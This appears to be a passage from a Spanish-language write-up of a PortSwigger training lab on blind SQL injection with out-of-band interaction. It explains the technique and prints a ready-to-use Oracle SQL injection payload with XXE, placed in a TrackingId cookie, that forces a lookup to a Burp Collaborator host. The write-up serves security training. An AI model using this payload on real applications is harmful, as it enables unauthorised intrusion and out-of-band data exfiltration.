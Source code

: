 <https://portswigger.net/web-security/sql-injection/blind#exploiting-blind-sql-injection-by-triggering-time-delays>

<https://portswigger.net/web-security/sql-injection/cheat-sheet>

#### Lab 16: Blind SQL injection with out-of-band interaction

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

![](/assets/img/ps-writeup-sqli/ps-lab16_1.png)

La inyección OAST-SQL ocurre cuando una aplicación permite la inyección de consultas SQL, pero no proporciona respuestas directas a la interacción del atacante. En lugar de eso, el atacante puede provocar efectos secundarios observables, como cambios en el comportamiento de la aplicación o interacciones externas.

* Interceptar la petición HTTP con Burp Suite y modificar la cookie TrackingId.

* Insertar una carga maliciosa en TrackingId para forzar una consulta DNS a un servidor externo (Burp Collaborator). Se puede utilizar una técnica que combina SQL Injection con XXE:

```sql
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
```
